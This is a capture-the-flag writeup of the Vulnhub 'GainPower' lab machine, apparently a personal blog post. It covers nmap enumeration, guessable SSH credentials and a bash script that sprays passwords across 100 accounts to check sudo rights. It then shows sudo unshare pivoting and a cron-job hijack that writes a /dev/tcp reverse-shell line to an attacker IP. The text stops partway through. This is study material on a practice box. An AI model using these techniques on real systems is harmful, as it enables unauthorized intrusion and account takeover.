 ```yaml
---
title: Vulnhub - GainPower
description: My writeup on GainPower box.
categories:
 - vulnhub
tags: vulnhub
---
```


![](https://static.vecteezy.com/system/resources/previews/000/602/897/non_2x/creative-power-logo-concept-design-templates-vector.jpg)

Hi all, i have to admit that this box took me a while to pwn it. I got stuck HARD with the privesc but at the end was really easy but i got confused anyway let's pwn it. :)

You can find the machine there > [GainPower](https://www.vulnhub.com/entry/gainpower-1,493/){:target="_blank"}

## Enumeration/Reconnaissance

Let's start always with nmap.

```
$ ip=192.168.1.2                       
$ nmap -sC -sV -p- -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-02 00:42 EEST
Nmap scan report for 192.168.1.2 (192.168.1.2)
Host is up (0.00096s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 88:41:61:11:e1:1f:18:7d:d6:0c:38:29:25:79:16:2c (RSA)
|   256 18:c5:fd:ce:cd:2b:92:f8:d9:17:17:21:24:9d:67:df (ECDSA)
|_  256 84:c5:14:e4:e9:33:21:41:6a:92:72:b9:a7:33:1a:ea (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS)
|_http-title: Watch shop | eCommers
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti
MAC Address: 00:0C:29:5E:CF:3F (VMware)
```

This box requires banner grabbing, i usually forget/avoid to do that but this box needs it.

`banner grabbing` -> banner grabbing is a enumeration technique that retrieves a banner information, banner usually contains important information about a service, like software name and version.

```
$ ssh $ip
Hi !!! THIS MESSAGE IS ONLY VISIBLE IN OUR NETWORK :) 

   ___      _        ___                    
  / __|__ _(_)_ _   | _ \_____ __ _____ _ _ 
 | (_ / _` | | ' \  |  _/ _ \ V  V / -_) '_|
  \___\__,_|_|_||_| |_| \___/\_/\_/\___|_|  
                                            

I HOPE EVERYONE KNOW THE JOINING ID CAUSE THAT IS YOUR USERNAME : ie : employee1 employee2 ... ... ... so on ;)

I already told the format of password of everyone in the yesterday's metting.

Now i have configured everything. My request is to everyone to Complete assignments on time 

btw one of my employee have sudo powers because he is my favourite 

NOTE : "This message will automatically removed after 2 days" 
								- BOSS
```

Here we go, if we try `employee1:employee1` we're in.

```
ssh employee1@$ip
employee1@192.168.1.2's password: 
[employee1@192 ~]$ 
```

Now the banner says something : `btw one of my employee have sudo powers because he is my favourite`, there are lot of employee :

```
[employee1@192 ~]$ cat /etc/passwd | grep employee...
employee1:x:1000:1000::/home/employee1:/bin/bash
employee2:x:1001:1001::/home/employee2:/bin/bash
employee3:x:1002:1002::/home/employee3:/bin/bash
.. data ..
employee98:x:1097:1097::/home/employee98:/bin/bash
employee99:x:1098:1098::/home/employee99:/bin/bash
employee100:x:1099:1099::/home/employee100:/bin/bash
```

I coded a simple bash script to do this job! :)

```bash
#!/bin/bash
#by: âtøm

pwn () {
  read -p 'target ip: ' ip
  sleep 2
  for data in {1..100}
  do
      echo 'Try: ' $data
      sshpass -p 'employee'$data ssh employee$data@$ip 'echo employee'$data' | sudo -S -l'
      printf "\n"
  done
}

pwn
```

Takes some time.. after some minutes i found the right employee! :D

```
Try:  64
Hi !!! THIS MESSAGE IS ONLY VISIBLE IN OUR NETWORK :) 

   ___      _        ___                    
  / __|__ _(_)_ _   | _ \_____ __ _____ _ _ 
 | (_ / _` | | ' \  |  _/ _ \ V  V / -_) '_|
  \___\__,_|_|_||_| |_| \___/\_/\_/\___|_|  
                                            

I HOPE EVERYONE KNOW THE JOINING ID CAUSE THAT IS YOUR USERNAME : ie : employee1 employee2 ... ... ... so on ;)

I already told the format of password of everyone in the yesterday's metting.

Now i have configured everything. My request is to everyone to Complete assignments on time 

btw one of my employee have sudo powers because he is my favourite 

NOTE : "This message will automatically removed after 2 days" 
								- BOSS
 
[sudo] password for employee64: Matching Defaults entries for employee64 on 192:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User employee64 may run the following commands on 192:
    (programmer) /usr/bin/unshare
```

Let's test it out!

```
[employee1@192 ~]$ su - employee64
Password: 
[employee64@192 ~]$ sudo -u programmer /usr/bin/unshare
[sudo] password for employee64: 
-bash-4.2$ whoami
programmer
```

Bingo now for the next privesc we need [pspy](https://github.com/DominicBreuker/pspy){:target="_blank"} to deleted the cronjob!

```
-bash-4.2$ wget -q 192.168.1.16/pspy64; chmod +x pspy64
-bash-4.2$ ./pspy64 -pf -i 1000
...
2020/07/01 18:13:02 CMD: UID=1183 PID=12429  | /bin/bash /media/programmer/scripts/backup.sh
```

This file run as `UID=1183` -> 

```
-bash-4.2$ cat /etc/passwd | grep 1183
vanshal:x:1183:1184::/home/vanshal:/bin/bash
```

Let's add our payload in & grab a shell as vanshal.

```
-bash-4.2$ > backup.sh 
-bash-4.2$ cat - > backup.sh 
bash -i >& /dev/tcp/192.168.1.16/5555 0>&1
^C
```

```
$ nc -lvp 5555
listening on [any] 5555 ...
[vanshal@192 ~]$ whoami
vanshal
```

Great, now we can see this file in his desktop :

```
[vanshal@192 ~]$ ls -la
ls -la
total 32
drwx------.   2 vanshal prome   97 Jun 21 11:43 .
drwxr-xr-x. 185 root    root  8192 Aug  7  2019 ..
-rw-r--r--.   1 vanshal prome   18 Oct 30  2018 .bash_logout
-rw-r--r--.   1 vanshal prome  193 Oct 30  2018 .bash_profile
-rw-r--r--.   1 vanshal prome  231 Oct 30  2018 .bashrc
-rw-r--r--.   1 vanshal prome 1550 May 18 06:47 local.txt
-rw-r--r--.   1 root    root   439 Aug  8  2019 secret.zip
```

Let's move it in our system.


